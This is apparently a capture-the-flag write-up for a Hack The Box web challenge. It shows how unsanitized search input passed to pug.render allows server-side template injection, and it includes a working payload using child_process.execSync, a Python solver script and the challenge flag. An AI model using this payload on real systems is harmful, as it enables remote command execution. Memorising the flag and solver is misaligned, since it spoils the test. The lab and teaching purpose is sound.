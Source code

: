 # [__The Search__](#)

### Description:

* The Impossible Mission Force agency has set up a new website that allows users to search for available field agents. Go and check it out!

### Objective:

* Exploit a Server Side Template Injection vulnerability in the Search field to acquire the flag.

### Difficulty:

* `Easy`

### Flag:

* `HTB{SST1_by_f0rc3}`

### Release:

* [the_search.zip](release/web_the_search.zip) (`84156e7d82e19b75f5f3006a33bf194f7b8036083e5d7abde0d4ec079279a4b7`)

### Challenge:

![web](assets/web.png)

From [server.js](challenge/server.js) we notice that the `pug` template engine is in use.
```javascript
const pug = require('pug');
```
From [Dockerfile](challenge/Dockerfile) and [entrypoint.sh](challenge/entrypoint.sh) we see that the flag is copied to the root directory and a random character sequence is appended to its name.
```bash
COPY flag /flag
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /flag /flag$FLAG
```

On [routes/default.route.js](challenge/routes/default.route.js), we see that user input from the search form is sanitized using backslashes and assigned to the `search` variable. Then a query is run on a MongoDB instance to search for agents.

```javascript
defaultRoutes.route('/').post( (req, res) => {
	let name = req.body.name;
	let search = name.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
	if (typeof name !== 'undefined' && name != "") {
		query = { name : {$regex: search, $options: "i"} };
		Agent.find(query,  (err, agents) => {
			if (err) {
				console.log(err);
				return res.json(err);
			} else {
				return res.render('index', { agents: agents, name: pug.render(`| ${name}`) });
			}
		});
	} else {
		return res.redirect('/');
	}
});
```
After the query completes, the data is rendered on the page using the `res.render` function.

![ethan](assets/ethan.png)

The above code might be vulnerable to a `Server Side Template Injection` vulnerability, due to the fact that the `name` variable is used to output the search term instead of the sanitized `search` variable. To test for a SSTI, let's input `#{ 7*7 }` in the search field.

![ssti](assets/ssti.png)

This confirms the vulnerability, as our input is executed and `49` is returned. Owing to `NodeJS` being the backend in use, we can use JavaScript code to retrieve the flag.

```javascript
#{ process.mainModule.require('child_process').execSync('cat /flag*')}
```
The Node package `child_process` is used to execute a system command and specifically `cat /flag*`. The flag is then rendered in the page.

![flag](assets/flag.png)

### Solver:

```python
import requests, re

host, port = "localhost", 1337
HOST = "http://%s:%d/" % (host, port)

payload = "#{process.mainModule.require('child_process').execSync('cat /flag*').toString()}"
r = requests.post(HOST, data={"name": payload})

flag = re.search("HTB{(.*)}", r.text)
print(flag.group(0))
```
